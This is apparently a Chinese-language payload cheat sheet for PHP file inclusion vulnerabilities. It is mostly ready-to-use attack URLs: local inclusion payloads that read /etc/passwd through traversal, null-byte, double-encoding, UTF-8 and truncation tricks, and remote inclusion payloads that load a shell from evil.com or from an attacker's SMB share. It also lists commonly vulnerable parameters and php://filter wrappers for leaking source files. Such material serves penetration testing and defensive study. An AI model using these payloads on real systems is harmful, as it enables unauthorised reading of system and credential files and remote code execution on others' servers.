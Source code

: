 # 文件包含漏洞

### 本地文件包含

```bash
http://example.com/index.php?page=../../../etc/passwd
```

空字节（低于5.3.4）
```bash
http://example.com/index.php?page=../../../etc/passwd%00
```

遍历
```bash
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

双编码
```bash
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

UTF8
```bash
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

路径截断</br>
在大多数 PHP 安装中，长度超过4096字节的文件名将被截断，因此任何多余的字符都将被丢弃
```bash
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE]
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

基础过滤绕过
```bash
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

### 远程文件包含

PHP5后默认配置不起作用，需要修改配置文件allow_url_include = On

```bash
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

绕过allow_url_include</br>
当allow_url_include和allow_url_fopen被设置为Off时，可以使用smb协议在Windows机器上包含远程文件

+ 1. 创建一个向所有人开放的smb共享
+ 2. 写入一个shell.php文件，其中包含执行的PHP代码
+ 3. 然后文件包含它，有效负载为http://example.com/index.php?page=\\攻击者主机地址\share\shell.php

可能含有文件包含漏洞的参数
```bash
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

### PHP包装器和协议

#### php://filter

filter有五类：

[字符串过滤器](https://www.php.net/manual/en/filters.string.php)</br>
+ string.rot13
+ string.toupper
+ string.tolower
+ string.strip_tags

[转换过滤器](https://www.php.net/manual/en/filters.convert.php)</br>
+ convert.base64-encode
+ convert.base64-decode
+ convert.quoted-printable-encode
+ convert.quoted-printable-decode
+ convert.iconv.*

[压缩过滤器](https://www.php.net/manual/en/filters.compression.php)</br>
+ zlib.deflate
+ zlib.inflate

[加密过滤器](https://www.php.net/manual/en/filters.encryption.php)</br>
+ mcrypt.*
+ mdecrypt.*

其它过滤器(运行var_dump(stream_get_filters());查看更多过滤器)</br>
+ consumed
+ dechunk
+ convert.*

```bash
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd

http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```
